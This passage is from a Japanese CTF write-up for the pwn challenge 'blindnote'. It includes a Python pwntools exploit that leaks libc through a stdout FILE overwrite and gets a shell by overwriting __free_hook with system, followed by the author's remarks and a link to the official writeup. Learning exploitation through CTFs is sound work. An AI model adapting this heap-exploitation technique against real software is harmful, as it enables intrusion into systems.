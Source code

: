 ```python
    delete(s, 2)  # ready for overwrite 3
    delete(s, 3)  # unsorted bin

    # make pointer to `_IO_2_1_stdout_`
    payload = padding + b"\x60\xc7"
    create(s, payload)  # 0

    # overwrite next
    payload = padding + b"\x40"
    create(s, payload)  # 1

    create(s)  # 2
    create(s)  # 3
    payload = p64(0xfbad1880) + p64(0x0) * 3 + b"\x08"
    create(s, payload)

    libc_addr = u64(s.recv(8)) - offset
    print(hex(libc_addr))

    delete(s, 0)
    delete(s, 2)
    create(s, b"a" * 0x98 + p64(0xa1) + p64(libc_addr + free_hook_libc))  # 5
    create(s)
    create(s, p64(libc_addr + system_libc))

    delete(s, 1)

    s.interactive()

```

## Flag

ローカルで
シェル取っただけ
最上川

## 公式Writeup

* <https://ptr-yudai.hatenablog.com/entry/2020/01/26/174525#Pwn-400-blindnote>

## 感想

showless問題として作られた問題としては初めてクリア出来たので嬉しかったです。
(でもこれを当日のあの短い時間で解くのは今でも無理かもしれない)
別のshowless問題をこなしたらぼちぼちFSOPにでも挑もうと思う

が、院試出願等リアルイベントが控えているので頻度落ちるかもしれません、落とさせてください